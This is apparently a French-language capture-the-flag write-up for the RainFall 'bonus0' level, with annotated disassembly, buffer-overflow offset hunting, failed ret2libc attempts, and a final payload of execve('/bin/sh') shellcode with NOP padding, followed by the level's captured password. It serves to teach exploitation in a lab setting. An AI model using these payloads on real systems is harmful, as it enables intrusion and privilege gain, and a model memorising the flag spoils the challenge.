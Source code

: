 ```
080484b4 <p>:
 80484b4:	55                   	push   ebp
 80484b5:	89 e5                	mov    ebp,esp
 80484b7:	81 ec 18 10 00 00    	sub    esp,0x1018
 80484bd:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]		; ebp+12 (2e argument)
 80484c0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>			; puts(" - ")
 80484c8:	c7 44 24 08 00 10 00 	mov    DWORD PTR [esp+0x8],0x1000
 80484cf:	00 
 80484d0:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484d6:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax		; char buff[0x1008];
 80484da:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>			; read(0, buff, 0x1000);
 80484e6:	c7 44 24 04 0a 00 00 	mov    DWORD PTR [esp+0x4],0xa
 80484ed:	00 
 80484ee:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484f4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
 80484fc:	c6 00 00             	mov    BYTE PTR [eax],0x0			; *strchr(buff, '\n') = 0
 80484ff:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 8048505:	c7 44 24 08 14 00 00 	mov    DWORD PTR [esp+0x8],0x14
 804850c:	00 
 804850d:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048511:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048514:	89 04 24             	mov    DWORD PTR [esp],eax
 8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>		; strncpy(char strn[] (1e arg), buff, 20)
 804851c:	c9                   	leave  
 804851d:	c3                   	ret    

0804851e <pp>:
 804851e:	55                   	push   ebp
 804851f:	89 e5                	mov    ebp,esp
 8048521:	57                   	push   edi
 8048522:	53                   	push   ebx
 8048523:	83 ec 50             	sub    esp,0x50
 8048526:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 804852d:	08 
 804852e:	8d 45 d0             	lea    eax,[ebp-0x30]					; char str2[20]
 8048531:	89 04 24             	mov    DWORD PTR [esp],eax
 8048534:	e8 7b ff ff ff       	call   80484b4 <p>						; p(str2, " - ")
 8048539:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 8048540:	08 
 8048541:	8d 45 e4             	lea    eax,[ebp-0x1c]					; char str3[28]
 8048544:	89 04 24             	mov    DWORD PTR [esp],eax
 8048547:	e8 68 ff ff ff       	call   80484b4 <p>						; p(str3, " - ")
 804854c:	8d 45 d0             	lea    eax,[ebp-0x30]
 804854f:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048553:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result = ebp+8
 8048556:	89 04 24             	mov    DWORD PTR [esp],eax
 8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>				; strcpy(copy_result, str2)
 804855e:	bb a4 86 04 08       	mov    ebx,0x80486a4					; " "
 8048563:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result
 8048566:	c7 45 c4 ff ff ff ff 	mov    DWORD PTR [ebp-0x3c],0xffffffff	; -1
 804856d:	89 c2                	mov    edx,
 804856f:	b8 00 00 00 00       	mov    eax,0x0
 8048574:	8b 4d c4             	mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:	89 d7                	mov    edi,edx
 8048579:	f2 ae                	repnz scas al,BYTE PTR es:[edi]
 804857b:	89 c8                	mov    eax,ecx
 804857d:	f7 d0                	not    eax								; strlen(copy_result)
 804857f:	83 e8 01             	sub    eax,0x1
 8048582:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]			; copy_result + strlen(copy_result);
 8048585:	0f b7 13             	movzx  edx,WORD PTR [ebx]				; 0x80486a4 sur 2 octets donc on copy " \0"
 8048588:	66 89 10             	mov    WORD PTR [eax],dx				; *(copy_result + strlen(copy_result)) = " \0"
 804858b:	8d 45 e4             	lea    eax,[ebp-0x1c]					; eax = str3
 804858e:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048592:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048595:	89 04 24             	mov    DWORD PTR [esp],eax
 8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>				; strcat(copy_result, str3)
 804859d:	83 c4 50             	add    esp,0x50
 80485a0:	5b                   	pop    ebx
 80485a1:	5f                   	pop    edi
 80485a2:	5d                   	pop    ebp
 80485a3:	c3                   	ret

080485a4 <main>:
 80485a4:	55                   	push   ebp
 80485a5:	89 e5                	mov    ebp,esp
 80485a7:	83 e4 f0             	and    esp,0xfffffff0
 80485aa:	83 ec 40             	sub    esp,0x40					; 64
 80485ad:	8d 44 24 16          	lea    eax,[esp+0x16]			; char str[42]
 80485b1:	89 04 24             	mov    DWORD PTR [esp],eax
 80485b4:	e8 65 ff ff ff       	call   804851e <pp>				; pp(str)
 80485b9:	8d 44 24 16          	lea    eax,[esp+0x16]
 80485bd:	89 04 24             	mov    DWORD PTR [esp],eax
 80485c0:	e8 eb fd ff ff       	call   80483b0 <puts@plt>		; puts(str)
 80485c5:	b8 00 00 00 00       	mov    eax,0x0
 80485ca:	c9                   	leave  
 80485cb:	c3                   	ret    
```


On va générer de très grandes strings :
```js
var letters = "abcdefghijklmnopqrstuvwxyz"  + "ABCDEFGHIJKLMNOPQRSTUVWXYZ";

function gen() {
    var str = "";
    var repeat = 1;
    while (str.length < 4100) {
        for (let i = 0; i < letters.length && str.length < 4100; i++) {
        str += letters[i % letters.length].repeat(repeat);
    }
        repeat++;
    }
    return str.slice(0, 4100);
}
console.log(gen());
```

Pour la première partie, on utilise les lettres : `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`
Et pour la seconde : `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789`

Comme ça, on pourra trouver facilement l'endroit où on segfault et où on peut faire un `ret2libc` en modifiant l'adresse de `ret`.

On peut voir qu'après avoir injecté les deux strings, on obtient : `0x4d4c4b4a` soit `MLKJ` donc en JKLM en reverse. On a donc deux endroits où ça peut se produire, où au niveau du 35 caractère de la première partie, ou au niveau du 9e de la seconde. On aura juste à changer la seconde string pour savoir:
`letters = "0123456789" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ" + "abcdefghijklmnopqrstuvwxyz" `

`0x43424139`  => `9ABC`, par conséquent, c'est bel et bien la seconde chaine de caractère utilisée.

Donc, on devrais pouvoir appeler `system` en mettant `012345678<system_address><padding [ 4100 - 13 ]>`

Bon, offset de `/bin/sh` dans `objdump -s /lib/i386-linux-gnu/libc-2.15.so` = `0x160c58`

```
(gdb) x/1s 0xb7e2c000 +  0x160c58
0xb7f8cc58:	 "/bin/sh"
(gdb) x/10xw system
0xb7e6b060 <system>:	0x891cec83
```
donc on a l'adresse de `system` et de `/bin/sh`, testons:
```py
print("A" * 4095 + "\n")
print("A" * 9 + "\x60\xb0\xe6\xb7" + "\x90" * 4 + "\x58\xcc\xf8\xb7" + "A" * 4074 + "\x0a")
print("0\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x60\xb0\xe6\xb7" + "\x58\xcc\xf8\xb7" * 1019)
```

Marche pas. La commande `dmesg` nous renvoie les logs du crash du process:
`bonus0[3552]: segfault at b7f8ccd0 ip b7f8cc5f sp bffff774 error 7 in libc-2.15.so[b7e2c000+1a3000]`

Pour le debug, notons quelques return addresses :
- `0x080485b9` (`pp` dans le main)
- `0x08048539` (`p` dans `pp`)
- `0x0804854c` (`p` dans `pp`)

Le bug se situe lors du `ret` dans main.
Adresse de base de retour de main est : `0xb7e454d3`. On peut analyser la return adresse pour savoir ce qui se passe :
1. Dans le main, elle est au top la stack
2. Après l'instruction `and    esp,0xfffffff0`, on a perdu 12 octets sur le pointeur `esp`.
3. On retire à `esp` 64 octets, on se retrouve donc avec un espace de 76 octets avant d'écraser l'adresse du main.
4. On va déclarer notre buffer à `esp + 22`, ce qui nous rapproche à 44 octets de notre adresse.
5. En arrivant dans `pp`, on insère les adresses de retour, et on pointe sur `0xbffff6e0`, soit désormais 92 octets avant l'adresses de retour
6. 


Wait, après avoir cherché avec `dmesg`, j'ai vu qu'il essayé d'exécuter les adresses que je lui passais (comme de s opcode), et non d'exécuter la fonction `system`. Ce qui explique les segfault à répétitions.

Après avoir testé avec `gdb`, l'adresse de notre payload dans la stack est : `0xbfffe695`

Essayons de reprendre le shell code de l'exercice précédent :
```py
payload = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70" +
		"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61" +
		"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52" +
		"\x51\x53\x89\xe1\xcd\x80")
print("A" * 4095)
print("A" * 9 + "\x8e\xe6\xff\xbf\x90" + payload + "\x90" * (4094 - len(payload) - 9 - 4))
```

ATTENTION, il faut les même env que dans `gdb`, donc on fait :
```
(gdb) show env
```
On copie les env, puis dans bash:
```
bonus0@RainFall:~$ vim /tmp/env
bonus0@RainFall:~$ set -a
bonus0@RainFall:~$ source /tmp/env
bonus0@RainFall:~$ set +a
```

Password:
`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`